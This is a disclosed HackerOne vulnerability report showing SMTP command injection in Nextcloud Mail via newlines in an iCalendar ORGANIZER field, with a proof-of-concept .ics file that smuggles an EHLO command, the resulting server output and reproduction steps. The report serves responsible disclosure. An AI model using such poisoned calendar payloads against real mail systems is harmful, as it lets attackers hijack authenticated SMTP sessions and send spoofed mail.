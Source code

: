 # SMTP Command Injection in iCalendar Attachments to Emails via Newlines

## Report Details
- **Report ID**: 1516377
- **URL**: https://hackerone.com/reports/1516377
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-03-19T08:41:01.706Z
- **Disclosed**: 2022-07-04T13:10:26.031Z

## Reporter
- **Username**: spaceraccoon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Note: This is similar to {1509216}, but has a new source/attack vector. Apologies for not picking this up earlier.

## Summary:
When users receive iCalendar attachments in Mail, there is an option to add it to their calendar:

██████████

Once they add it to calendar, a PUT request is sent:

```
PUT /remote.php/dav/calendars/nextcloud/personal/██████.ics HTTP/2
Host: 192.168.92.132

BEGIN:VCALENDAR
PRODID:-//Nextcloud Mail
BEGIN:VTIMEZONE
TZID:Asia/Singapore
BEGIN:STANDARD
TZOFFSETFROM:+0800
TZOFFSETTO:+0800
TZNAME:+08
DTSTART:19700101T000000
END:STANDARD
END:VTIMEZONE
BEGIN:VEVENT
CREATED:20220319T044448Z
DTSTAMP:20220319T080250Z
LAST-MODIFIED:20220319T080250Z
SEQUENCE:2
UID:a027641d-9f3a-4570-8cff-aa5cde0ba323
DTSTART;TZID=Asia/Singapore:20220322T100000
DTEND;TZID=Asia/Singapore:20220322T110000
STATUS:CONFIRMED
SUMMARY:Normal Event
ATTENDEE;CN=nextcloud;CUTYPE=INDIVIDUAL;PARTSTAT=DECLINED;ROLE=REQ-PARTICIP
 ANT;RSVP=TRUE;LANGUAGE=en:mailto:███
ORGANIZER;CN=Normal User:mailto:<ORGANIZER EMAIL>
END:VEVENT
END:VCALENDAR
```

At the same time, an SMTP pipelined command is sent to the email server to email <ORGANIZER EMAIL> that the user has accepted the event.

Unfortunately, since `<ORGANIZER EMAIL>` is not sanitized, if an attacker sends a poisoned iCalendar file with newlines in the `ORGANIZER` property, this will inject newlines in the pipelined SMTP commands, allowing the attacker to inject arbitrary SMTP commands.

These commands vary depending on the backend email server (Gmail, Outlook, local SMTP server) and thus can have different impacts, such as changing the `MAIL FROM` user, running sensitive commands like `QUEU` to view the current view, and so on. The errors in SMTP are returned in the response, thus making this a non-blind injection.

For example, an attacker can inject a simple `EHLO a` command:

```
BEGIN:VCALENDAR
CALSCALE:GREGORIAN
VERSION:2.0
PRODID:-//Nextcloud Mail
BEGIN:VEVENT
CREATED:20220319T044448Z
DTSTAMP:20220319T080250Z
LAST-MODIFIED:20220319T080250Z
SEQUENCE:2
UID:a027641d-9f3a-4570-8cff-aa5cde0ba323
DTSTART;TZID=Asia/Singapore:20220322T100000
DTEND;TZID=Asia/Singapore:20220322T110000
STATUS:CONFIRMED
SUMMARY:Normal Event
ATTENDEE;CN=nextcloud;CUTYPE=INDIVIDUAL;PARTSTAT=DECLINED;ROLE=REQ-PARTICIP
 ANT;RSVP=TRUE;LANGUAGE=en:mailto:████
ORGANIZER;CN=Normal User:mailto:test(\nEHLO a\n)@gmail.com
END:VEVENT
BEGIN:VTIMEZONE
TZID:Asia/Singapore
BEGIN:STANDARD
TZOFFSETFROM:+0800
TZOFFSETTO:+0800
TZNAME:+08
DTSTART:19700101T000000
END:STANDARD
END:VTIMEZONE
END:VCALENDAR
```

Which for Gmail would return:

```
{"status":"error","message":"Could not send mail: Expected response code 354 but got code \"250\", with message \"250-smtp.gmail.com at your service, [116.89.6.224]\r\n250-SIZE 35882577\r\n250-8BITMIME\r\n250-AUTH LOGIN PLAIN XOAUTH2 PLAIN-CLIENTTOKEN OAUTHBEARER XOAUTH\r\n250-ENHANCEDSTATUSCODES\r\n250-PIPELINING\r\n250-CHUNKING\r\n250 SMTPUTF8\r\n\"","data":{"type":"OCA\\Calendar\\Exception\\ServiceException","message":"Could not send mail: Expected response code 354 but got code \"250\", with message \"250-smtp.gmail.com at your service, [116.89.6.224]\r\n250-SIZE 35882577\r\n250-8BITMIME\r\n250-AUTH LOGIN PLAIN XOAUTH2 PLAIN-CLIENTTOKEN OAUTHBEARER XOAUTH\r\n250-ENHANCEDSTATUSCODES\r\n250-PIPELINING\r\n250-CHUNKING\r\n250 SMTPUTF8\r\n\"","code":250,
```

Note that for this report, the commands are blind; but can be used remotely if changing the sender/recipient. I added additional logging to `/var/www/nextcloud/3rdparty/swiftmailer/swiftmailer/lib/classes/Swift/Transport/AbstractSmtpTransport.php` to confirm that the commands were injected.

## Steps To Reproduce:

Note: Email sending should be set up in the admin settings.

Setup `/var/www/nextcloud/3rdparty/swiftmailer/swiftmailer/lib/classes/Swift/Transport/AbstractSmtpTransport.php` to log SMTP commands. I inserted the following at line 343: `file_put_contents('/tmp/test.log',$response,FILE_APPEND);` (under `$response = $this->getFullResponse($seq);`). I also inserted the following at line 327: `file_put_contents('/tmp/test.log',$command,FILE_APPEND);` (below `$failures = (array) $failures;`).

  1. At an external email, send the victim nextcloud email the attachment ███████. Modify `█████` in the file to the victim's email. 
  2. As the victim, check email in nextcloud.  Click the 3 dots beside `event.ics` > Import into Calendar > Personal. This triggers the PUT request.
  3. Check `/tmp/test.log`. Confirm that the newlines and arbitrary `EHLO a` SMTP commands have been injected and sent to the server.

## Impact

The impact varies based on which commands are supported by the backend SMTP server. However, the main risk here is that the attacker can then hijack an already-authenticated SMTP session and run arbitrary SMTP commands as the email user, such as sending emails to other users, changing the FROM user, and so on. As before, this depends on the configuration of the server itself, but newlines should be sanitized to mitigate such arbitrary SMTP command injection.

## Attachments
No attachments
